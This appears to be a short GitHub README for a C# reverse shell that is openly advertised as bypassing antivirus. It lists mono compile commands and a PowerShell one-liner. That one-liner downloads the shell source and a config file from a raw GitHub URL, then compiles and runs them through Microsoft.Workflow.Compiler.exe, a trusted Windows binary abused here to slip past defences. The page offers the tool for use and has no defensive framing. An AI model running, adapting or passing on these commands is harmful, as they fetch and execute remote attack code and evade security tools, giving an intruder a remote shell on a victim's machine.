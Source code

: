# Simple reverse shell in C# code and bypass AV solutions  

## Compile code to .exe  
sudo apt install mono-complete  
mcs -out:hello.exe hello.cs  
mono hello.exe  


## Live compiling via Powershell 

powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
